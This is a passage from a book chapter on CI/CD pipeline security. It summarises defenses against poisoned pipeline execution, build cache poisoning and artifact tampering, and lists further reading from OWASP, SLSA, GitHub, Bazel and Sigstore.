  runs it with secrets, it deserves the pipeline's review gate.
- **A PPE foothold's value equals the pipeline's standing privilege** — secret exfiltration,
  artifact tampering, malicious deploy, cloud pivot via OIDC identity, runner persistence,
  cross-tenant reach. Least privilege (Ch 6) and ephemeral isolation (Ch 8) bound it.
- **Cache poisoning attacks a trusted shared input without touching source.** Cross-context
  poisoning — a low-privilege build writing an entry a high-privilege build restores — is a trust
  inversion; the fix is to trust-scope cache namespaces so untrusted contexts cannot write what
  trusted contexts read.
- **Content-addressing by input digest is not integrity.** A remote build cache (Bazel et al.)
  trusts whoever wrote an entry and uses it *instead of re-executing*; an unauthenticated writable
  cache is a direct supply-chain compromise. Restrict writes to trusted builders; give untrusted
  contexts read-only access.
- **Artifact-tamper threats (SLSA (E) build-process compromise, (F) post-build/upload modification)
  are detected, not prevented, by build-time provenance and signing verified downstream.** Any
  post-build swap changes the digest and fails verification — provided the signing step is isolated
  from the build (L3) and downstream actually verifies.
- **One principle unifies every defense:** untrusted input must never execute in, or flow unverified
  into, a context holding secrets or deploy privileges without a trust boundary. Standardize that
  split in the paved-road pipeline so no team can accidentally opt out of it.

## Further reading

- **OWASP Top 10 CI/CD Security Risks (2022)** — especially CICD-SEC-4 (Poisoned Pipeline
  Execution), CICD-SEC-5 (Insufficient PBAC), and CICD-SEC-9 (Improper Artifact Integrity
  Validation). <https://owasp.org/www-project-top-10-ci-cd-security-risks/>.
- **Cider Security / Palo Alto Networks CI/CD security research** — the original PPE taxonomy
  (direct / indirect / public) that seeded the OWASP list, and the broader "CI/CD attack surface"
  writeups (Prisma Cloud / Unit 42).
- **GitHub Actions documentation** — *Caching dependencies to speed up workflows* (cache scope and
  restriction rules) and *Security hardening for GitHub Actions* (`pull_request` vs
  `pull_request_target`, self-hosted runner risks). <https://docs.github.com/actions>. See also
  published research on Actions cache poisoning and cross-branch cache isolation.
- **Bazel — Remote Caching** and **Remote Execution API** — the action-keyed cache model and why
  write access must be controlled. <https://bazel.build/remote/caching> and
  <https://github.com/bazelbuild/remote-apis>.
- **SLSA v1.0 Threats & mitigations** — the A–H supply-chain threat model, especially (E) compromise
  build process and (F) upload modified package. <https://slsa.dev/spec/v1.0/threats>.
- **SLSA v1.0 provenance** and **Sigstore `cosign`** — build-time provenance and signing as the
  tamper-detection controls. <https://slsa.dev/provenance/v1>.
- Book 1, Chapter 1 (anatomy and SLSA threats A–H) and Chapter 3 (SolarWinds / 3CX build-system
  compromise); Book 1, Chapter 9 (distributed-systems blast radius); Book 2, Chapters 3–4
  (dependency confusion, malicious packages) and Chapter 8 (internal registries); Book 4,
  Chapter 2 (hermetic builds and cache correctness), Chapter 3 (SLSA provenance), Chapters 4–6
  (platform threats, hardening Actions, secrets), Chapter 8 (ephemeral runners), Chapter 9
  (observability), Chapter 10 (secure build platform at scale); Book 5, Chapters 4 and 8 (workload
  identity, provenance verification); Book 6, Chapters 2, 5–6, 9 (registries, image signing and
  admission, cloud provider chain).
